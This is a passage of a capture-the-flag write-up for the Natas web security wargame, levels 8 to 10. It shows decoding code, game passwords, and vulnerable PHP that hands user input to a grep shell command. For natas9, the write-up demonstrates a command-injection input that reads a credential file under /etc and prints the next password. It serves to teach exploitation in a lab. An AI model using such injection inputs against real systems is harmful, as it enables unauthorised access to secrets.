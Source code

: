 
```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function dencodeSecret($secret) {
    return base64_decode(strrev(hex2bin($secret)));
}

echo dencodeSecret($encodedSecret);

[Running] php "c:\_git\github\tempCodeRunnerFile.php"
oubWYf2kBq
[Done] exited with code=0 in 0.154 seconds
```

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl  
```

## natas 9
view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

No input validation. We can do command injection. lets just add a additional file to grep and search for something that is likely to be in the password.

```
1 /etc/natas_webpass/natas10
```

```
Output:

/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## natas10

view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```
